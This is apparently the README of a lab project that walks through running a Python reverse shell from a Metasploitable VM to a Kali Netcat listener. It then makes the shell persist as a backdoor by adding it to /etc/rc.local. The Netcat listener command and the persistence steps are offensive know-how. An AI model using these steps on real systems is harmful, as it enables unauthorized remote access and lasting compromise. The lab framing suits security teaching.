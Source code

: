# Reverse-Shell
Write, set up, and execute a reverse shell in Python on Kali Linux and Metasploitable VM's, and automate this process creating a persistent backdoor.

!!Make sure that Both VM's can communicate with eachother on a secure network!!

On Kali, start a Netcat listener on port 7777: nc -lvnp 7777

This tells Netcat to listen verbosely on port 7777 and not to close the connection.

On Metasploitable machine, create a Python script: sudo nano reverse_shell.py

Write or paste the committed code in this file; save and exit the editor.

Run "python reverse_shell.py" 

A connection should be established on Kali's Netcat listener, providing an interactive shell to the Metasploitable VM.

How to automate this process:

Open the rc.local file: sudo nano /etc/rc.local

Before the exit 0 line, add: python /path/to/your/reverse_shell.py &

In my case: python /home/msfadmin/yannos/reverse_shell.py &

The "&" makes sure it runs in the background.

Make the script executable: sudo chmod +x /path/to/your/reverse_shell.py

In my case: sudo chmod +x /home/msfadmin/yannos/reverse_shell.py

Make sure rc.local is executable: sudo chmod +x /etc/rc.local

Reboot and start the listener on Kali.

The shell should automatically establish on the listener upon reboot of Metasploitable VM.
